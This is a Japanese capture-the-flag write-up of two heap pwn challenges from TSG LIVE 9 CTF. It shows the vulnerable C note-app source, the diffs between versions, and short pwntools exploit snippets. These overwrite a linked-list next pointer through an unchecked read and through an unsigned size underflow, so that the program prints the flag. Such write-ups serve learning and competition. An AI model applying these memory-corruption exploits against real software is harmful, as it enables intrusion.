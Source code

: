 # 結果
2022/11/19に行われたTSG LIVE 9 CTFに、Float Lariatとして出てきました。
頑張って、頑張った結果、一位を取れました。嬉しいね。

僕が解いた問題は

- LoseLeaf(pwn)
- LooseLeaf(pwn)

の二問だけなんでその解説します。

## LoseLeaf(pwn)

以下のソースコードと、バイナリが渡されます。

checksec
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

ソースコード

<details>

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

#define N_NOTES 10
#define BUF_SIZE 40

char flag[100]; // Can you read me?

typedef struct Page {
    struct Page *next;
    char content[];
} Page;
Page *notes[N_NOTES];

void die(const char *msg) {
    puts(msg);
    exit(1);
}

unsigned get_int() {
    unsigned x;
    scanf("%u", &x);
    return x;
}

void readn(char *buf, unsigned size) {
    unsigned cnt = 0;
    for (unsigned i = 0; i < size; i++) {
        unsigned x = read(0, buf + i, 1);
        cnt += x;
        if (x != 1 || buf[cnt - 1] == '\n') break;
    }
    if (cnt == 0) exit(-1);
    if (buf[cnt - 1] == '\n') buf[cnt - 1] = '\x00';
}

void init() {
    alarm(60);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

unsigned get_note_index(const char* msg) {
    printf("%s: ", msg);
    unsigned idx = get_int();
    if (idx >= N_NOTES) die("invalid choice");
    return idx;
}

unsigned page_menu() {
    puts("1. add page");
    puts("2. delete page");
    puts("3. back to main menu");
    printf("> ");
    return get_int();
}

unsigned main_menu() {
    puts("1. modify note");
    puts("2. concat notes");
    puts("3. print note");
    printf("> ");
    return get_int();
}

void add_page(unsigned note_idx) {
    printf("index: ");
    unsigned idx = get_int();

    Page **cur = &notes[note_idx];
    for (int i = 0; i < idx; i++) {
        if (*cur == NULL) die("invalid index");
        cur = &(*cur)->next;
    }
    Page *next = *cur;

    printf("size: ");
    unsigned size = get_int();
    Page *page = (Page *)malloc(size + 8);
    page->next = next;
    printf("data: ");
    readn(page, size);
    *cur = page;
}

void delete_page(unsigned note_idx) {
    printf("index: ");
    unsigned idx = get_int();

    Page **cur = &notes[note_idx];
    for (int i = 0; i < idx; i++) {
        if (*cur == NULL) die("invalid index");
        cur = &(*cur)->next;
    }
    if (*cur == NULL) die("invalid index");
    Page *next = (*cur)->next;
    free(*cur);
    *cur = next;
}

void page_main(unsigned note_idx) {
    while (1) {
        switch (page_menu()) {
            case 1:
                add_page(note_idx); break;
            case 2:
                delete_page(note_idx); break;
            default:
                return;
        }
    }
}

void concat_notes(unsigned idx1, unsigned idx2, unsigned idx3) {
    notes[idx3] = notes[idx1];
    Page **cur = &notes[idx3];
    while(*cur != NULL) {
        cur = &(*cur)->next;
    }
    *cur = notes[idx2];
    notes[idx1] = NULL;
    notes[idx2] = NULL;
}

void print_note(unsigned idx) {
    Page **cur = &notes[idx];
    while(*cur != NULL) {
        printf("%s\n", (*cur)->content);
        puts("\n------------\n"); 
        cur = &(*cur)->next;
    }
}
    
int main(void) {
    init();
    unsigned idx1, idx2, idx3;
    int fd = open("flag.txt", O_RDONLY);
    int r = read(fd, flag, 99);
    if (r <= 0) die("ask admin");
    close(fd);
    while (1) {
        switch (main_menu()) {
            case 1:
                page_main(get_note_index("note index")); break;
            case 2: 
                idx1 = get_note_index("note index 1");
                idx2 = get_note_index("note index 2");
                idx3 = get_note_index("note index 3");
                concat_notes(idx1, idx2, idx3); break;
            case 3:
                print_note(get_note_index("note index")); break;
            default:
                return 0;
        }
    }
    return 0;
}
```

</details>

簡単なメモアプリっぽいですね。
グローバルな `notes` に先頭ポインタが40個入っていて、そこから next を手繰っていくアプリケーションです。

さて、この問題はpwn全三問シリーズの一問目で、二問目はこの問題のセキュリティにパッチを当てたらしいことが仄めかされています。そこで diff を使ってソースコードを比較することにしました。

diff
```
85c85
<     readn(page, size);
---
>     readn(page->content, size);
```

add_page 内の readn が修正されているようです。上の場合、page に入力が入るので、nextが変更できてしまうことがわかります。これではいけませんね。
ということで、入力にflagが入ったポインタ-8を入れ、contentがflagを指すようにしたところ、取れました。

exploit.py
```python
io.sendline(b'0')
io.sendline(b'1')
io.sendline(b'0')
io.sendline(str(0x20).encode())
io.sendline(pack(binary.symbols['flag'] - 8))
```

あとはこれで index=0 を print します。

## LooseLeaf(pwn)

checksec
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

同じように二問目と三問目でdiffを取ると、

```
81a82
>     if (size > 0x500) die("your buffer is too big");
```

何やらサイズチェックが入っているのがわかります。

mallocに入れる値だからチェックしても変わらなさそうだなぁと思いつつよく見てみると、sizeの型がunsignedなことに気が付きます。

もし `size = get_int()` が -8 を返してきた場合、unsigned な型に入るので、オーバーフローして 4294967288 になります。

size + 8 は 0 なので、malloc は 適当なポインタを取ってきますが、readn に渡される size が大きいので、ヒープのバッファオーバーフローが発生します。

その操作を broken_alloc として、

```
idx0 = alloc(0x8)
deallocate(idx0) // tcache(0x8) -> idx0

idx1 = alloc(0x100)
idx2 = broken_alloc() // tcache(0x8)
``

の順番で操作をすると、broken_alloc で取ってきた下の領域に alloc(1) のデータがあるので、next を flag - 8 にして print すれば取れます。

exploit.py
```python
modify_note(0)
add_page(0, 0x8, b'normal1')
delete_page(0)
add_page(0, 0x100, b'big!')

add_page(0, ctypes.c_uint32(-8).value, pack(0xdeadbeef) + pack(0xcafebabe) + pack(0x11111111) + pack(binary.symbols['flag'] - 8))
```

# 感想
自明な脆弱性からちょっと一手間で解ける感じの問題で楽しかった。
LoooseLeft(3問目)も通したかった
